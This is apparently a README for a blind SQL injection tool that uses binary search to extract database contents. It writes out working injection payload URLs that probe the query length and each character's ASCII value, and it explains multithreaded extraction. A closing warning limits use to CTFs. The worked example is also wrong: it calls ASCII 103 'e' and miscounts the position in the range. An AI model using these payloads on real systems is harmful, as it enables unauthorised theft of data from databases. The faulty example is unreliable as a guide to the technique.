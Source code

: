 # Blindary-Search
Binary Search implemented for Blind SQL data exfiltration

The script first runs Binary Search to gets the length of the sub-query using `length(({sql}))`

You need to enter the Success String, which is the string that appears on the webpage if the query returns a `True` or `False`

```
http://url?q=a' or length((select @@version))<100; -- - 

http://url?q=a' or length((select @@version))<50; -- - 

http://url?q=a' or length((select @@version))<25; -- - 

...
```

Once we have the length of the string, we create an empty array of that size 

```
 answer = [0] * ans_len
```

For each character, we spawn a thread that does Binary Search to find what the correct character is. The number of threads is defined by `CHUNK_SIZE`

For example, finding the character at the 14th position on the string in the ascii character range of 32-127

```
http://url?q=a' or ascii(substr((select @@version),14,1))<96; -- -
http://url?q=a' or ascii(substr((select @@version),14,1))<47; -- -
http://url?q=a' or ascii(substr((select @@version),14,1))<71; -- -
```

Once it finds the correct ascii value of the character, in this example it's 103 (71th position in the range of 32-127) so it's `e` , the character is appeneded to the array

We need to take `pos-1` because python arrays are zero indexed while `substr()` in SQL in not.

```
global answer
answer[pos-1] = chr(char)
```

# WARNING
Please don't DDoS a service using this to spawn multiple threads against it. Use this only for CTFs!
